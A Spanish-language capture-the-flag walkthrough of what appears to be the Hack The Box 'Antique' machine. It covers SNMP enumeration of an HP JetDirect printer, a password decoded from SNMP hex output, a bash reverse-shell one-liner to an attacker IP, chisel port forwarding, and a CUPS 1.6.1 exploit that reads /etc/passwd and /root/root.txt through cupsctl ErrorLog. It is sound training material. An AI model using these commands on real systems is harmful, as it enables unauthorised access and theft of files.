# Antique

10.129.5.227



Solo se nos reporta un puerto tcp abierto, el **23 telnet** (Remote Login Service)

Si hacemos un
```bash
telnet 10.129.5.227
```

nos reporta que es un *HP JetDirect* es una impresora/servidor de impresión HP -> Hemos probado contraseñas por defecto
*vacío*, admin,hp,jetdirect,password
no conseguimos entrar pero hay vulnerabilidades posibles conocidas ->

Usaremos una herramienta que interroga a dispositivos que soportan SNMP (Simple Network Management Protocol, usado por routers, impresoras, switches, etc)
```bash
snmpwalk -v1 -c public 10.129.5.227
```



Obtenemos


//Con Public accederemos a contenido de lectura y con private podremos incluso modificar configuraciones, resetear contraseñas, cambiar el nombre, modificar parámetros de red, reiniciar el dispositivo...

--> Cambio IP 10.129.158.183
A ciencia cierta no sabíamos que corría un servicio SNMP en la máquina víctima, por lo que sospecho que puede haber puertos abiertos UDP. Realizamos el escaneo correspondiente
```bash
nmap -sU --top-ports 100 --open -T5 -v -n 10.129.158.183
```

- aplicamos top ports de los 100 primeros más comunes porque tarda bastante
- T5 para ir lo  más rápido posible



Nos reporta el servicio que sospechábamos, ahora sí podemos proceder con snmpwalk
Las community strings pueden ser bruteforceadas -> herramienta **onesixtyone**
- En este caso no será necesario puesto que "public" o cualquier valor que le introduzcamos nos da resultado

snmpwalk funciona como una estructura de arbol que por defecto tira del OID 2, hay que pasarle un 1 al final para que tire desde la raíz
```bash
snmpwalk -c public -v1 10.129.158.183
```

**Explicación OIDs y SNMP** -->



Nos reporta datos en hexadecimal
```bash
snmpwalk -v2c public IP 1
```



`50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135`

Para ver el nombre en lugar de iso.3.6.1.2.1 vamos a abrir la configuración de snmp y comentar la línea *mibs*
```bash
nano /etc/snmp/snmp.conf
```



Intentamos ahora descifrar la cadena en hexadecimal con
```bash
echo '50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135' | xargs | xxd -ps -r
```

- `xargs` elimina el salto de línea final → deja todo en **una sola línea**, útil cuando el contenido proviene de archivos o pipes
·`xxd` es un hex editor,
`-ps` → modo _plain hexdump_ (hex plano)
`-r` → _reverse_, convierte *HEX → binario*

Obtenemos



**P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i  IYaA"1&1A5%**

Probaremos a introducir la cadena hasta el espacio como contraseña para acceder por telnet a la IP víctima
```bash
telnet 10.129.158.183
```

Conseguimos entrar



Vemos que escribiento `?` para mostrar los posibles comandos, se nos muestra uno que ejecuta directamente comandos por sistema
```bash
exec id
```



ejecutamos oneliner de  revshell y ganamos acceso a la máquina
```bash
exec bash -c "bash -i >&/dev/tcp/10.10.16.54/443 0>&1"
```

**lp**

## Escalada

Al hacer un tratamiento de la *tty* nos encontramos con una peculiaridad



Nos dice que la cuenta no está disponible
- Intenamos lanzarnos una consola desde *python*

Miramos a ver si tiene python o python3 instalado con
```bash
which python3
```



```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



Ahora si nos deja importar una shell
- Seguimos con *ctrl +z* ->
```bash
stty raw -echo; fg
```

->
```bash
reset xterm
```

->
```bash
export TERM=xterm
```

->
```bash
stty size rows 49 columns 184
```

Vemos los puertos abiertos de la máquina con
```bash
netstat -nat
```



Vemos un puerto que no estaba expuesto desde fuera en el reconocimiento externo por nmap que es el **631** en **127.0.0.1**
Intentamos conectarnos con *netcat*
```bash
nc localhost 631
```

- No responde

Probaremos *curl* por si es una web -> Vemos contenido que es de web.
Usaremos chisel para redireccionar el tráfico de ese puerto abierto hacia nuestro Kali mediante remote port forwarding

1) Nos descargamos de github el recurso de https://github.com/jpillora/chisel/releases/tag/v1.11.3 -> *chisel_1.11.3_linux_amd64.gz*.
```bash
mv /home/qarlg/Descargas/chisel_1.11.3_linux_amd64.gz chisel.gz
gunzip chisel.gz
```

Ya tenemos el ejecutable chisel
2) Pasarlo a la máquina víctima
```bash
python3 -m http.server 80
```

Desde la MV
```bash
wget http://10.10.16.54/chisel
chmod +x chisel
```

3) Ejecutar chisel para el Remote Port Forwarding
- En el servidor en KALI
```bash
./chisel server --reverse -p 1234
```

-En MV indicar al cliente donde se va a conectar (nuestro KALI 192.168.1.249)
```bash
./chisel client 192.168.1.249:1234 R:9999:127.0.0.1:631
```

`{js}R:<PUERTO_EN_SERVIDOR>:<IP_EN_CLIENTE>:<PUERTO_EN_CLIENTE>`
Entablamos  conexión en modo cliente hacia el puerto 1234 de nuestra máquina diciéndole que el puerto `631:` de la máquina en la que se lanza el comando `:127.0.0.1:` sea el puerto `:631` del servidor chisel levantado (nuestro Kali)
- Previamente hemos comprobado que en nuestro kali no hay nada corriendo en el puerto 9999
```bash
lsof -i:631
```

Con esto tendremos el tráfico redireccionado a nuestro localhost en el puerto 631, lo comprobaremos en el buscador



Vemos un portal de CUPS
**CUPS es un sistema de impresión modular de código abierto que Apple desarrolló y que utiliza el Protocolo de Impresión por Internet (IPP) para gestionar la administración de impresoras y trabajos de impresión.**

Nos pedirá logearnos para realizar ciertas acciones:



No tenemos credenciales a priori

Buscaremos exploits para este **CUPS 1.6.1**

--> Cambio IP 10.129.165.191
Encontramos un módulo en metasploit que se llama
**post/multi/escalate/cups_root_file_read.rb**
Se encarga de aprovechar una vulnerabilidad de CUPS 1.6.1 para ejecutar un RCE

Como en Metasploit se necesita de una sesión levantada en la máquina víctima para ejecutar este módulo (ya que es post), no usaremos el framework metasploit e intentaremos entender qué hace el exploit para replicarlo por líneas de comando

1) Se comprueba que el usuario pertenezca al grupo lpadmin o _lpadmin_ -> OK



2) Ejecuta un binario *ctl_path*



Buscando qué es ctl_path, vemos que en la primera vez que aparece, se realiza una búsqueda de este binario en $PATH para comprobar que existe a nivel de sistema
- Vemos que la variable *ctl_path* hace referencia al binario **cupsctl**



- El error que nos devuleve si no lo encuentra también nos da pista del nombre del binario en el sistema **cupsctl**



3) Buscamos el binario en el sistema víctima
```bash
which cupsctl
```



Vemos que el binario existe
4) Replicamos funcionalidad empleada en el exploit. Este módulo imprime por pantalla el log de archivo de errores. Además, aquellos usuarios del grupo _lpadmin_ son capaces de modificar dicho archivo de logs con el comando _cupsctl_.
4.1) Vemos que el exploit hace
```bash
cupsctl ErrorLog={archivo}
```

Donde {archivo} será el fichero del sistema que queramos ver
```bash
cupsctl ErrorLog=/etc/passwd
```

4.2) Iremos a buscar ese log en el directorio donde se guarden, que también debería aparecer en el exploit



- Esa ruta es **/admin/log/error_log**
- Miraremos el contenido con curl
```bash
curl http://localhost:631/admin/log/error_log
```

Conseguimos forzar el archivo desead como arhivo de logs de errores



Ahora se tratará de mostrar un archivo que no deberíamos poder ver, como la flag *root.txt*
```bash
cupsctl ErrorLog=/root/root.txt
curl http://localhost:631/admin/log/error_log
```



**root.txt**
